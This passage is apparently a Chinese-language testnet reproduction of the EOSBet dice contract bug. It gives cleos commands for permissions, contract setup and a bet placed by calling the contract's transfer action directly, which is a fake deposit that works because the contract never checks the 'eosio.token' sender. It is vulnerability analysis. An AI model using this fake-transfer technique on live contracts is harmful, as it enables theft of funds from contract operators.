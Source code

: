 ```
// set permission
cleos set account permission eosbetdice11 active '{"threshold": 1,"keys": [{"key": "EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi","weight": 1}],"accounts":[{"permission":{"actor":"eosbetdice11","permission":"eosio.code"},"weight":1}]}' owner -p eosbetdice11@owner
cleos set account permission safetransfer active '{"threshold": 1,"keys": [{"key": "EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi","weight": 1}],"accounts":[{"permission":{"actor":"safetransfer","permission":"eosio.code"},"weight":1}]}' owner -p safetransfer@owner
cleos set account permission safetransfer active '{"threshold": 1,"keys": [{"key": "EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi","weight": 1}],"accounts":[{"permission":{"actor":"eosbetdice11","permission":"eosio.code"},"weight":1}]}' owner -p safetransfer@owner

cleos set account permission eosbetcasino random '{"threshold": 1,"keys": [{"key": "EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi","weight": 1}],"accounts":[]}' owner -p eosbetcasino@owner


// initcontract 
cleos push action eosbetdice11 initcontract '{"randomness_key":"EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi"}' -p eosbetcasino

// test
cleos push action eosbetdice11 transfer '{"from":"joetothemoon","to":"eosbetdice11","quantity":"10.0000 EOS","memo":"88-okbtozhemoon-"}' -p joetothemoon

// result 
cleos get actions joetothemoon

cleos get table eosbetdice11 eosbetdice11 activebets

// try resolvebet (先用 get table eosbetdice11 eosbetdice11 activebets 获取 bet_id, 签名替换为你的私钥对应生成签名。
cleos push action eosbetdice11 resolvebet '{"bet_id":"13268895739635552667", "sig":"SIG_K1_JyLrnpivQrsrmfaFqpk8168zS3sAxVi91KWb3MCkU5uBNrj52h7GPp5HMSxxdA3y9yMPHpQSWw1PNn4kJojMAHK2kK9fRY"}' -p eosbetcasino@random


```

步骤稍微讲解下，就是在测试网，创建相关账号，然后部署合约，然后执行攻击手段，然后开奖，成功证明，确实是 缺少了 判断 “eosio.token” 引起的。


先执行 ：

```
// test
cleos push action eosbetdice11 transfer '{"from":"joetothemoon","to":"eosbetdice11","quantity":"10.0000 EOS","memo":"88-okbtozhemoon-"}' -p joetothemoon

```

也就是直接调用 合约的 tranfer ：

发现执行成功。


获取等待开奖的下注记录：
